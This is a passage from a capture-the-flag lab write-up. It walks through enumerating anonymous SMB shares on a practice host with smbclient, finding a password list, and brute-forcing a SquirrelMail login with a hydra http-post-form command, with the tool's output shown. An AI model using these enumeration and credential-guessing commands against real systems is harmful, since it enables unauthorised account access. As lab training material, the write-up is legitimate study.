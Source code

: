 ```bash
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-11-30T21:07:36
|_  start_date: N/A
```

After enumerating the site I found a few interesting directories
 - /admin
 - /squirrel This forwarded me to the squirrel mail client

 Lets look at SMB shares on port 445, nmap revealed it has anonymous access.

 ```bash
 smbclient -L \\\\10.10.36.101\\
 Enter WORKGROUP\kali password:

 	Sharename       Type      Comment
 	---------       ----      -------
 	print$          Disk      Printer Drivers
 	anonymous       Disk      Skynet Anonymous Share
 	milesdyson      Disk      Miles Dyson Personal Share
 	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
 Reconnecting with SMB1 for workgroup listing.

 	Server               Comment
 	---------            -------

 	Workgroup            Master
 	---------            -------
 	WORKGROUP            SKYNET
 ```
The share "anonymous" has anonymous access!

It contains some log files and an "attention.txt" which reads
```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

That is interesting!

Also in this directory is a "logs.txt" which looks like it is a set of passwords.

---
## Brute force squirrel mail with hydra
---

The `attention.txt` is by a person called "milesdyson" lets try all theses passwords against that username in the mail login. You can use hydra to perform brute logon attempts using the `http-post-form` module which just attempts to login with milesdyson with every password you supply it, Like so.

```bash
kali@kali:~/thm$ hydra 10.10.36.101 -l milesdyson -P log1.txt http-post-form "/squirrelmail/src/login.php:username=^USER^&password=^PASS^&Login=Login:S=" -f -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-30 16:36:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.10.36.101:80/squirrelmail/src/login.php:username=^USER^&password=^PASS^&Login=Login:S=
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "cyborg007haloterminator" - 1 of 31 [child 0] (0/0)
```